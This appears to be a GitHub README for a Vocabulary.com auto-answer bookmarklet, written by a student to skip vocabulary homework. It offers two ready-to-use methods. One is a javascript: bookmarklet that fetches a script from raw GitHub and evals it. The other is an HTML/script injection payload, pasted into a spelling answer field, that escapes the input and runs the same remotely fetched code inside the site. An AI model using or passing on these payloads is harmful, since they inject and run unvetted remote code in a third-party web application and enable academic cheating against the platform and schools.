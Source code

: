 # Vocabulary.com Bot Bookmarklet
Automatic Vocabulary.com mastery bookmarklet \
Automatically answers questions (auto answer) \
I made this because im too lazy to do my vocab 🤑

![](auto.gif)

## IMPORTANT
> My school disabled javascript from running so this will not be updated from now on!
> If you're wondering if your javascript is disabled copy this and paste in the url:
```JS
javascript: alert("Javascript is enabled");
```
No alert = no javascript

## HOW TO RUN (Javascript enabled)
Make a new bookmark with this as the link & click it on your vocabulary.com practice
```JS
javascript:  fetch("https://raw.githubusercontent.com/urdakota/Vocabulary.com/main/Bypass/index.js").then((res) => res.text().then((t) => eval(t)))
```
## HOW TO RUN (Javascript disabled)
Work on the vocab till you get a fill in the blank question (spelling bee whateva)
Paste this code in
```JS
"><script>
    fetch(&apos;https://raw.githubusercontent.com/urdakota/Vocabulary.com/main/Bypass/index.js &apos;)
      .then(
      response => {
        response.text()
          .then(a=> exec(a))
        
      }
      )</script>
```
code from [here](https://stackoverflow.com/questions/63859970/loading-external-js-script-in-post-parameter-xss-reflected-attack)
KEEP THE " AT THE START OR IT WONT RUN

## What it does 🤔
- Automatically guesses & remembers the answers for multiple choice questions
- Automatically guesses & remembers the answers for image questions
- Automatically fills in the answer for spelling questions
